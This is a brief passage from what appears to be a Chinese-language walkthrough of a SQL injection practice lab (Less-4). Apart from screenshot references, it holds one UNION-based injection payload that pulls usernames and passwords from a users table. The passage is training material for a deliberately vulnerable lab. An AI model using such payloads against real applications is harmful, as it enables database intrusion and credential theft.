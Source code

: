 ![Less-4_10](./img/Less-4_10.PNG)



+ 最后注入以下语句

~~~ shell
?id=-1") union select 1,2,group_concat(username,id,password) from users--+
~~~

![Less-4_11](./img/Less-4_11.PNG)
